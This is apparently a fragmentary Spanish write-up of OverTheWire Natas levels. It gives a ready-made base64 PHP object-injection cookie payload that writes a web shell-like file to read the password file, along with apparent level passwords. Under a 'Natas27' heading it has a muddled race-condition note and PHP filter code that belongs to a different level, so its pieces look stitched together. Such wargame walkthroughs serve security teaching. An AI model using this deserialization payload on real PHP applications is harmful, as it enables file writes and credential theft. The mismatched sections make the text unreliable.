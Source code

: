 Intente que la cadena de salida con codificación base64 esté libre de “=”
 Salida Cadena: YToxOntpOjA7Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNjoiaW1nL3doYXRpc2l0LnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjIyOiIjLS1zZXNzaW9uIHN0YXJ0ZWQtLSMKIjtzOjE1OiIATG9nZ2VyAGV4aXRNc2ciO3M6NDY6Ijw/cGhwIGluY2x1ZGUoJy9ldGMvbmF0YXNfd2VicGFzcy9uYXRhczI3Jyk7Pz4iO319
 
Luego, envíe esta cadena como "dibujo" en el Cookie. Al ejecutar la función de destrucción (automática), escribirá un archivo PHP para mostrar el archivo de contraseñas
55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ

# Natas27

Seguir insertando datos con el nombre de usuario "natas28" y una contraseña. Como la base de datos se borra en 5 minutos, la inserción se realizaría accidentalmente. Luego, consultar con el nombre de usuario y la contraseña para obtener la contraseña real

~~~
function setLanguage(){
    /* language setup */
    if(array_key_exists("lang",$_REQUEST))
        if(safeinclude("language/" . $_REQUEST["lang"] ))
            return 1;
    safeinclude("language/en"); 
}

function safeinclude($filename){
    // check for directory traversal
    if(strstr($filename,"../")){
        logRequest("Directory traversal attempt! fixing request.");
        $filename=str_replace("../","",$filename);
    }
    // dont let ppl steal our passwords
    if(strstr($filename,"natas_webpass")){
        logRequest("Illegal file access detected! Aborting!");
        exit(-1);
    }
    // add more checks...

    if (file_exists($filename)) { 
        include($filename);
        return 1;
    }
    return 0;
}
function logRequest($message){
    $log="[". date("d.m.Y H::i:s",time()) ."]";
    $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
    $log=$log . " \"" . $message ."\"\n"; 
    $fd=fopen("/tmp/natas25_" . session_id() .".log","a");
    fwrite($fd,$log);
    fclose($fd);
}
~~~
JWwR438wkgTsNKBbcJoowyysdM82YjeF
